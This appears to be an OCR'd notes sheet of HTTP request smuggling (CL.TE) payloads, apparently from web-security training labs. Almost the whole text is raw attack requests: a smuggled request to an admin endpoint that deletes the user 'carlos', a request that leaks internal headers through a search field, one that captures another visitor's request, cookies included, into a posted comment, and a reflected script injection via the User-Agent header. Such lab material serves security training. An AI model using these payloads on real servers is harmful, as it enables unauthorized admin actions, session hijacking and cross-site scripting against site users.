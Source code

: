 Tests CL.TE
```
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X

------------------

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

x=

------------------ (leaked header in search result using huge length)
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
------------------(trick victim to post comment)

Content-Length: 274
Transfer-encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 922
Cookie: session=4WlY1Dmu18NrQ3op5uCyFSOvhs1abfKX

csrf=1vraLv6LFICh6vv65uO8YmdU6zimCfSO&postId=1&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=VIC

------------------(xss)
Transfer-Encoding: chunked

0

GET /post?postId=2 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

------------------

```
